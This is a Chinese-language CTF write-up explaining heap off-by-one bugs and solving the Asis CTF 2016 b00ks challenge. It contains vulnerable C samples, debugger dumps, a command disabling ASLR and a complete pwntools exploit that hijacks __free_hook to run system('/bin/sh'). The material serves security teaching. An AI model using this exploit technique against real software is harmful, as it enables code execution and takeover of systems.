

[TOC]

## 介绍

off-by-one是一种特殊的溢出漏洞，off-by-one指程序向缓冲区写入时，写入的字节数超过了这个缓冲区本身所申请的字节数，并且只越界了一个字节。

## 漏洞原理

这种漏洞的产生往往与边界严重不严格和字符串操作有关，其中边界验证不严通常包括：

-   使用循环写入时，循环的次数设置有误。
-   字符串操作不合适

一般来说，单字节溢出很难利用，但是因为Linux的堆管理机制ptmalloc验证的松散性，基于Linux堆的off-by-one是可以基于各种缓冲区的，比如栈，bss段等，但是堆上的off-by-one是CTF中比较常见的，这里仅讨论heap上的off-by-one情况。

## 利用思路

1.  溢出字节为可控制任意字节：通过修改大小造成块之间出现重叠，从而泄露其他块的数据，或是覆盖其他块数据。也可使用NULL字节溢出的方法。
2.  溢出字节为NULL字节：溢出NULL字节可以使得`prev_in_use`位被清，这样前一个块会被认为是free块
    1.  这时可以选择使用unlink方法。（unlink部分之后再写）
    2.  另外这时`prev_size`就会启用，就可以伪造`prev_size`从而造成块之间发生重叠。此方法的关键在于unlink的时候没有检查按照`prev_size`找到的块的大小与`prev_size`是否一致、

在最新版的代码中已加入针对2中后一种方法的check，但在2.28之前并没有该check。

## 示例

### 示例1

```c
#include<stdio.h>
#include<stdlib.h>
int my_gets(char *ptr,int size)
{
    int i;
    for(i=0;i<=size;i++)
    {
        ptr[i]=getchar();
    }
    return i;
}
int main()
{
    void *chunk1,*chunk2;
    chunk1=malloc(16);
    chunk2=malloc(16);
    puts("Get Input:");
    my_gets(chunk1,16);
    return 0;
}
```

输入17*‘a’后会发现数据覆盖到了下一个堆块的prev_size。

### 示例2

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(void)
{
    char buffer[40]="";
    void *chunk1;
    chunk1=malloc(24);
    puts("Get Input");
    gets(buffer);
    if(strlen(buffer)==24)
    {
        strcpy(chunk1,buffer);
    }
    return 0;

}
```

通过调试可以发现next chunk 的size域的低字节被结束符`\x00`覆盖，

这属于off-by-one的一个分支，叫做NULL byte off-by-one，之后会看到off-by-one与NULL byte off-by-one在利用上的区别。

## 实例1：Asis CTF 2016 b00ks

```
yutao@pwnbaby:~/ctf-challenges/pwn/heap/off_by_one/Asis_2016_b00ks$ file b00ks 
b00ks: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=cdcd9edea919e679ace66ad54da9281d3eb09270, stripped
yutao@pwnbaby:~/ctf-challenges/pwn/heap/off_by_one/Asis_2016_b00ks$ checksec b00ks
[*] '/home/yutao/ctf-challenges/pwn/heap/off_by_one/Asis_2016_b00ks/b00ks'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

是一个图书管理系统。


**关闭aslr：**

>   **echo 0 > /proc/sys/kernel/randomize_va_space**

**重启虚拟机之后aslr会自动开启。**

程序流程：

```
1. Create a book
2. Delete a book
3. Edit a book
4. Print book detail
5. Change current author name
6. Exit
```


### Create

先确定size

```c
printf("\nEnter book name size: ");
__isoc99_scanf("%d", &v1);
printf("Enter book name (Max 32 chars): ");
ptr = malloc(v1)
```

之后是description大小

```c
printf("\nEnter book description size: ");
__isoc99_scanf("%d", &v1);
v5 = malloc(v1);
```

再之后分配book：

```c
printf("Enter book description: ");
v3 = malloc(0x20uLL);
*((_DWORD *)v3 + 6) = v1;//size
*((_QWORD *)off_202010 + v2) = v3;
*((_QWORD *)v3 + 2) = v5;//description
*((_QWORD *)v3 + 1) = ptr;// book_name
*(_DWORD *)v3 = ++unk_202024;//id
```
可以得到一个结构体：

```c
struct book
{
	int id;//offset:0
    char* name_ptr;//offset:8
    char* description_ptr;//offset:16
    int size;//offset:24
}
```

最多20本书。


```c
__int64 sub_B24()
{
  int i; // [rsp+0h] [rbp-4h]

  for ( i = 0; i <= 19; ++i )
  {
    if ( !*((_QWORD *)off_202010 + i) )
      return (unsigned int)i;
  }
  return 0xFFFFFFFFLL;
}
```

```
.data:0000000000202008 ; void *off_202008
.data:0000000000202008 off_202008      dq offset off_202008    ; DATA XREF: sub_980+17↑r
.data:0000000000202008                                         ; .data:off_202008↓o
.data:0000000000202010 off_202010      dq offset unk_202060    ; DATA XREF: sub_B24:loc_B38↑o
.data:0000000000202010                                         ; sub_BBD:loc_C1B↑o ...
.data:0000000000202018 off_202018      dq offset unk_202040    ; DATA XREF: sub_B6D+15↑o
.data:0000000000202018                                         ; sub_D1F+CA↑o
.data:0000000000202018 _data           ends
```

-   off_202018地址中存放的是**图书作者名指针**，这个指针指向的地址是unk_202040
-   off_202010地址中存放的是**图书的结构体指针**，这个指针指向的地址为unk_202060

### 漏洞

```c
__int64 __fastcall sub_9F5(_BYTE *a1, int a2)
{
  int i; // [rsp+14h] [rbp-Ch]

  if ( a2 <= 0 )    
    return 0LL;
  for ( i = 0; ; ++i )
  {
    if ( read(0, a1, 1uLL) != 1 )
      return 1LL;
    if ( *a1 == '\n' )
      break;
    ++a1;
    if ( i == a2 )
      break;
  }
  *a1 = 0;
  return 0LL;
}
```

上面函数中的for循环其实执行了a2 +1次，存在null byte off-by-one 漏洞

**小总结**

-   作者名存放在off_202018地址的指针中，这个指针指向的空间共32字节
-   图书结构体指针存放在off_202010中
-   sub_9F5()存在off-by-one漏洞，在首次创建作者名或者修改作者名时，如果填写了32个字节的数据，会导致`\x00`溢出到off_202018的低位。

### 动态调试

#### 1.定位输入的作者名的地址

输入32字节的任意数据后，Ctrl+C进入调试界面，定位刚才输入的字符串，有两种方式：

**第一种方式：**

作者名存放在off_202018中，因此知道代码段的基地址后，加上偏移就可找到存放作者名的指针。

vmmap查看代码段的起始地址

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/yutao/Desktop/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/yutao/Desktop/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/yutao/Desktop/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fe0000     0x7ffff7fe2000 rw-p     2000 0      
    0x7ffff7ff8000     0x7ffff7ffb000 r--p     3000 0      [vvar]
    0x7ffff7ffb000     0x7ffff7ffc000 r-xp     1000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
```

第一行就是代码段的范围。0x555555554000 --- 0x555555556000。

所以存放作者名指针的地址：0x555555754000 + 0x202018 = 0x555555756018

查看下：

```
pwndbg> x/16gx 0x555555756018
0x555555756018:	0x0000555555756040//地址	0x0000000000000000
0x555555756028:	0x0000000000000000	0x0000000000000000
0x555555756038:	0x0000000000000000	0x6161616161616161<=存放的字符串
0x555555756048:	0x6161616161616161	0x6161616161616161
0x555555756058:	0x6161616161616161	0x0000000000000000
0x555555756068:	0x0000000000000000	0x0000000000000000
0x555555756078:	0x0000000000000000	0x0000000000000000
0x555555756088:	0x0000000000000000	0x0000000000000000
```

**第二种方式**

使用pwngdb的search命令进行搜索：

```
pwndbg> search aaaaaaaaaaaaaaaaaaaaaaaaa
b00ks           0x555555756040 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```


#### 2.泄露图书结构体指针

接下来泄露图书结构体指针，**输入命令c回到程序执行的界面**，创建图书：

1.  创建book1：
    -   book_size = 10
    -   book_name = book1_name
    -   description_size = 200
    -   description_size = book1_description
2.  创建book2：
    -   book_size = 0x21000 = 135168
    -   book_name = book2_name
    -   description_size = 135168
    -   description_size = book2_description

至于为什么这么输，之后再说。

Ctrl+c回到调试界面。

book结构体的指针放在off_202010，查看下off_202010

```
pwndbg> x/16gx 0x555555756010
0x555555756010:	0x0000555555756060//地址	0x0000555555756040
0x555555756020:	0x0000000200000000	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161
0x555555756060:	0x0000555555757760	0x0000555555757790 <= 存放的结构体的起始地址
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

`0x0000555555756060`存放的是book1结构体的起始地址，

`0x0000555555757768`存放的是book1结构体的起始地址。

作者名与book结构体指针相连，输入32字节数据后会导致book结构体地址的低位被覆盖为`\x00`，由于printf打印内容时，遇到\x00停止，因此会将book1 的结构体地址打印出来，

```
pwndbg> c
Continuing.
4
ID: 1
Name: book1_name
Description: book1_desc
Author: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`wuUUU
ID: 2
Name: book2_name
Description: book2_desc
Author: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`wuUUU
```

其中`0x0000555555757760`即对应\`wuUUU。

payload：

```python
p.senline("4")
p.recvuntil("Author: ")
p.recv(32)
book1_addr = u64(p.recv(6)+'\x00\x00')
```

#### 3.覆盖原有的结构体指针

```
pwndbg> x/32gx 0x0000555555757760
0x555555757760:	0x0000000000000001	0x0000555555757670#book1
0x555555757770:	0x0000555555757690	0x00000000000000c8#book1
0x555555757780:	0x0000000000000000	0x0000000000000031#book1
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010#book2
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000#book2
0x5555557577b0:	0x0000000000000000	0x0000000000020851#book2
```

-   0x555555757760：book1_id
-   0x555555757768：book1_name：0x0000555555757670
-   0x555555757770：book1_desc：0x0000555555757690

book1的结构体指针低位能够覆盖作者名的\x00，那么作者名的\x00可以覆盖结构体指针的低位呢？程序有修改作者名的功能，输入的作者名依然会放在off_202018中。book1结构体的起始地址为0x0000555555757760，那么被覆盖之后会变为0x0000555555757700.

作者名处，其中0x555555756060处已变为0x0000555555757700。

```
pwndbg> x/10gx 0x555555756040
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161
0x555555756060:	0x0000555555757700	0x0000555555776090
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

此时程序就会去0x0000555555757700的位置寻找结构体，



#### 4.伪造结构体并泄露book2_name,book2_desc

下面解释为什么book2的书名大小和书名类别大小设置为135168：

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/yutao/Desktop/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/yutao/Desktop/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/yutao/Desktop/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7f9c000     0x7ffff7fe2000 rw-p    46000 0      
    0x7ffff7ff8000     0x7ffff7ffb000 r--p     3000 0      [vvar]
    0x7ffff7ffb000     0x7ffff7ffc000 r-xp     1000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```

>    0x7ffff7f9c000     0x7ffff7fe2000 rw-p    46000 0 
>   为mmap扩展的堆空间

根据网上其他wp说法，只有接近或者超过top_chunk的size大小的时候才会使用mmap进行扩展

如果vmmap后有mmap，就可以判断输入多大的数值了。**如果像上图一样并没有mmap的标识，可以查看是否存在紫色不断变换空间大小的data段。**

由于关闭了aslr，所以libc.so的基地址就不会发生变化了，因为book2的结构体成员的地址所属为mmap申请的空间，由于mmap地址不变、libc.so基地址不变，就会导致book2成员变量中的地址所在位置距离libc.so的偏移不变。那么如果可以通过泄露book2结构体成员变量中的地址的话，减去这个偏移就会得到libc.so的基地址。一旦得到了libc.so的基地址，就可以利用pwntools找到一些可以利用的函数了。

说了这么多，要想达到上面的效果，就要从部署伪造的结构体开始。首先是fake_book_id，如果是替换book1，那么这个fake_book1的id就必须为1，这样才能按照第一个book的形式替代原有的book1.接下来是fake_book1_name，这里我们将指向book2_name的地址，fake_book1_desc指向book2_desc的地址。这样一来我们再一次执行打印功能的时候就会将book2_name和book2_desc的地址打印出来了。


之前的：

```
pwndbg> x/32gx 0x0000555555757760
0x555555757760:	0x0000000000000001	0x0000555555757670
0x555555757770:	0x0000555555757690	0x00000000000000c8
0x555555757780:	0x0000000000000000	0x0000000000000031
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000
0x5555557577b0:	0x0000000000000000	0x0000000000020851
```

可以看到book2_name在0x00007ffff7fbe010的位置，book2_desc在0x00007ffff7f9c010的位置。

接下来查看伪造结构体前内存地址的内容：

```
pwndbg> x/32gx 0x0000555555757700
0x555555757700:	0x0000000000000000	0x0000000000000000
0x555555757710:	0x0000000000000000	0x0000000000000000
0x555555757720:	0x0000000000000000	0x0000000000000000
0x555555757730:	0x0000000000000000	0x0000000000000000
0x555555757740:	0x0000000000000000	0x0000000000000000
0x555555757750:	0x0000000000000000	0x0000000000000031
0x555555757760:	0x0000000000000001	0x0000555555757670#book1
0x555555757770:	0x0000555555757690	0x00000000000000c8
0x555555757780:	0x0000000000000000	0x0000000000000031
0x555555757790:	0x0000000000000002	0x00007ffff7fbe010#book2
0x5555557577a0:	0x00007ffff7f9c010	0x0000000000021000
0x5555557577b0:	0x0000000000000000	0x0000000000020851
0x5555557577c0:	0x0000000000000000	0x0000000000000000
0x5555557577d0:	0x0000000000000000	0x0000000000000000
0x5555557577e0:	0x0000000000000000	0x0000000000000000
0x5555557577f0:	0x0000000000000000	0x0000000000000000
```

可以看到，内容全为空，接下来进行伪造，

```
log.info("Prepare to construct a fake book...")
payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)
#book2_addr=0x555555757790
edit(1, payload)
#gdb.attach(p)
```

其中的`'a' * 0x70`起填充作用，将地址填充到目标位置，可以多次调试来找出。

```
pwndbg> x/40gx 0x0000555555758280
0x555555758280:	0x0000000000000000	0x00000000000000d1
0x555555758290:	0x6161616161616161	0x6161616161616161#填充的起始
0x5555557582a0:	0x6161616161616161	0x6161616161616161
0x5555557582b0:	0x6161616161616161	0x6161616161616161
0x5555557582c0:	0x6161616161616161	0x6161616161616161
0x5555557582d0:	0x6161616161616161	0x6161616161616161
0x5555557582e0:	0x6161616161616161	0x6161616161616161
0x5555557582f0:	0x6161616161616161	0x6161616161616161
0x555555758300:	0x0000000000000001	0x0000555555758398 #fake_struct
0x555555758310:	0x0000555555758398	0x000000000000ffff #fake_struct
0x555555758320:	0x0000000000000000	0x0000000000000000
0x555555758330:	0x0000000000000000	0x0000000000000000
0x555555758340:	0x0000000000000000	0x0000000000000000
0x555555758350:	0x0000000000000000	0x0000000000000031
0x555555758360:	0x0000000000000001	0x0000555555758270 <= #book1
0x555555758370:	0x0000555555758290	0x00000000000000c8 <= #book1
0x555555758380:	0x0000000000000000	0x0000000000000031 <= #book1
0x555555758390:	0x0000000000000002	0x00007ffff7fbe010 <= #book2
0x5555557583a0:	0x00007ffff7f9c010	0x0000000000021000 <= #book2
0x5555557583b0:	0x0000000000000000	0x000000000001fc51 <= #book2
```

#### 5.计算libc基地址，freehook、system、/bin/sh地址

得到了book2_name2的地址就可以计算libc的基地址了，**上面book2_name的内容在mmap扩展的内存空间里。**

payload：

```python
p.sendline("4")
p.recvuntil("Name: ")
mmap_addr = u64(p.recv(6) + '\x00\x00')
```

通过调试得到libc和mmap分配的堆块之间的偏移是固定的，接下来可以使用book2_name_addr或者book2_desc_addr任意一个计算偏移，下面使用book2_name_addr计算偏移：

```
book2_name - libc_addr = 0x00007ffff7fbe010 -  0x7ffff79e2000 = 0x5dc010
```

或者直接这样：

```
libc_addr = 0x7ffff79e2000
```

在之后：

```python 
free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr

payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)
p.recvuntil("> ")
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
delete(2)
```

payload2通过修改book1_desc来修改book2_desc指向的地址

 在这段代码中，首先是修改`book1_description`，而此时的book1是之前伪造的book2，也就是说这里的`book1_description_ptr`正好是指向`book2_struct`中的`book2_name_ptr`。通过这个修改，将`book2_name_ptr`改为了binsh字符串的地址，将`book2_description_ptr`改为了`free_hook`指针的地址。然后通过修改`book2_description_ptr`，将`free_hook`中的内容改为了`system()`的地址。之后在删除book2时，会首先调用free()释放`book2_name_ptr`指针指向的地址空间，原本的`free(book2_name_ptr)` 最终变为 `system(binsh_addr)`。

**什么是__free_hook?**举个栗子：

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

extern void (*__free_hook) (void *__ptr,const void *);

int main()
{
    char *str = malloc(160);
    strcpy(str,"/bin/sh");
    
    printf("__free_hook: 0x%016X\n",__free_hook);
    // 劫持__free_hook
    __free_hook = system;
    free(str);
    return 0;
}
//运行./a.out 就直接运行了system("/bin/sh")
```

**EXP：**

```Python
from pwn import *
context(log_level='DEBUG')
def create(name_len, name, desc_len, desc):
    p.sendline("1")
    p.recvuntil("Enter book name size: ")
    p.sendline(str(name_len))
    p.recvuntil("Enter book name (Max 32 chars): ")
    p.sendline(name)
    p.recvuntil("Enter book description size: ")
    p.sendline(str(desc_len))
    p.recvuntil("Enter book description: ")
    p.sendline(desc)

def delete(index):
    p.sendline("2")
    p.recvuntil("Enter the book id you want to delete: ")
    p.sendline(str(index))

def edit(index, desc):
    p.sendline("3")
    p.recvuntil("Enter the book id you want to edit: ")
    p.sendline(str(index))
    p.recvuntil("Enter new book description: ")
    p.sendline(desc)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = process("./b00ks")
p.recvuntil("Enter author name: ")
p.sendline("a" * 32)
p.recvuntil("> ")
create(10, "book1_name", 200, "book1_desc")
create(0x21000, "book2_name", 0x21000, "book2_desc")
p.recvuntil("> ")
p.sendline("4")
p.recvuntil("Author: ")
p.recv(32)

book1_addr = u64(p.recv(6) + '\x00\x00')
book2_addr = book1_addr + 0x30

p.recvuntil("> ")

payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)

edit(1,payload)
#gdb.attach(p)
p.recvuntil("> ")
p.sendline("5")
p.recvuntil("Enter author name: ")
p.sendline('a' * 32)
p.recvuntil("> ")
p.sendline("4")
p.recvuntil("Name: ")

mmap_addr = u64(p.recv(6) + '\x00\x00')

libc_addr = 0x7ffff79e2000   # Change it if doesn't work!

free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr

payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)

p.recvuntil("> ")
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
delete(2)
p.interactive()
```

